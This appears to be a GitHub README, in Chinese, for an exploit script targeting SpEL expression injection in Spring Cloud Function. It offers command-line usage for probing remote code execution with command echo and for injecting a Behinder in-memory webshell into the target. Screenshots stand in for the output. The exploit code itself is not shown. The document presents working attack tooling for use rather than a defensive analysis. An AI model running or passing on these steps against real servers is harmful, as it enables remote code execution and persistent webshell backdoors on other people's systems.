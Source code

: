 # Spring-cloud-function-SpEL-RCE
针对spel表达式注入进行回显和内存马注入的exp
# 使用
回显探测

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="790" alt="image" src="https://user-images.githubusercontent.com/38367493/165485812-a5e12b13-ce52-4b1b-bd76-17d1910bb602.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

